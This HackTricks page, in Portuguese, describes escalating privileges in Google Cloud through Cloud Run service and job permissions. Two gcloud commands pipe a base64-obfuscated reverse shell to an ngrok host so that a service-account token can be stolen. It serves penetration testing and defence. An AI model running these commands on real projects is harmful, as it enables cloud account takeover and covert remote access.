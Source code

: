 # GCP - Run Privesc

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## run

### `run.services.create` , `iam.serviceAccounts.actAs`

Semelhante ao método _cloudfunctions.functions.create_, este método cria um **novo Serviço Cloud Run** que, quando invocado, **retorna o token de acesso da Conta de Serviço** acessando a API de metadados do servidor em que está executando. Um serviço Cloud Run será implantado e uma solicitação pode ser realizada para obter o token.

As seguintes **permissões são necessárias** para este método:

* _run.services.create_
* _iam.serviceaccounts.actAs_
* _run.services.setIamPolicy_ **OU** _run.routes.invoke_

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image8-1000x503.png)

Este método utiliza uma imagem Docker incluída que deve ser construída e hospedada para ser explorada corretamente. A imagem é projetada para instruir o Cloud Run a responder com o token de acesso da Conta de Serviço quando uma solicitação HTTP é feita.

O script de exploração para este método pode ser encontrado [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) e a imagem Docker pode ser encontrada [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Por algum motivo, ao usar `gcloud run deploy` em vez de apenas criar o serviço **é necessária a permissão de atualização**. Confira um [**exemplo aqui**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

Como o anterior, mas atualizando um serviço
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

Conceda a si mesmo permissões anteriores.

### `run.jobs.create`, `run.jobs.run`, (`run.jobs.get`)

Inicie um trabalho com um shell reverso para roubar a conta de serviço indicada no comando. Você pode encontrar um [**exploit aqui**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/m-run.jobs.create.sh).

### `run.jobs.update`, `run.jobs.run`, `iam.serviceaccounts.actAs`, (`run.jobs.get`)

Semelhante ao anterior, é possível **atualizar um trabalho e atualizar a SA**, o **comando** e **executá-lo**:
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

Conceda a si mesmo as permissões anteriores.

## Referências

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
